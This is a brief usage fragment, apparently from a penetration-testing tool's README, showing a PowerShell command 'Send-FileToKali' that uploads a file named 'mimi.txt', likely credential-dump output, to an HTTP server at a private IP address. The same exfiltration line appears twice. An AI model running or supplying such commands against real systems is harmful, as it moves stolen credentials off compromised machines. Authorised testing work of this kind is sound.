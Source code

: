 # USAGE
'''
Send-FileToKali -FilePath "C:\Program Files\temp\mimi.txt" -UploadUrl "http://172.16.99.11:8000/"
'''
### Example
'''
Send-FileToKali -FilePath "C:\Program Files\temp\mimi.txt" -UploadUrl "http://172.16.99.11:8000/"
'''
